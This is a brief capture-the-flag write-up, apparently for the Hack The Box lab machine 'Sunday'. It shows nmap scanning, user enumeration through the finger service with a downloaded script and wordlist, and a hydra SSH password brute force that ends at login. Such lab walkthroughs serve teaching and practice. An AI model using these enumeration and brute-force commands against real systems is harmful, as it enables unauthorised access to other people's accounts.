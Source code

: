 Sunday without metasploit

![Sunday](https://user-images.githubusercontent.com/55708909/91526264-db8e9000-e920-11ea-8de4-c2507f4099ee.png)


Starting with nmap scan:

Nmap -sC -sV -T4 -A -O -oA Sunday -p- 10.10.10.76


I saw finger service ruuning and i know this service give info about logged in user.

![Sunday_finger](https://user-images.githubusercontent.com/55708909/91526816-1b09ac00-e922-11ea-8178-b6a72a650e6a.png)

Pentest monkey has an awesome script for finger service , here is the  link

wget https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl

Run it in order to know who logged into p.c. 

You need a good list for users and here is one from seclist github

wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/Names/names.txt

run these command and you will find appropriate users

![Sunday_finger_user](https://user-images.githubusercontent.com/55708909/91527570-a2a3ea80-e923-11ea-8177-96638e20536d.png)

i brute force  sssh and found password sunday

hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 ssh -s 22022

logged into system.
